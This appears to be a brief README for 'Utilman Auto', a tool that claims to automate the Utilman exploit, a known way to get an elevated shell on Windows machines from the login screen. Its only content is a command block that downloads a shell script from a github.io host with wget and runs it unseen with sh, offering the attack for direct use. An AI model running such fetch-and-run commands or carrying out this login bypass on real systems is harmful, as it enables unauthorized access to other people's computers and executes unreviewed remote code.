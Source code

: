 ## Utilman Auto
# Automatically perform the Utilman Exploit
```
wget nullsoepic.github.io/utilman/uexp.sh
sh uexp.sh
```
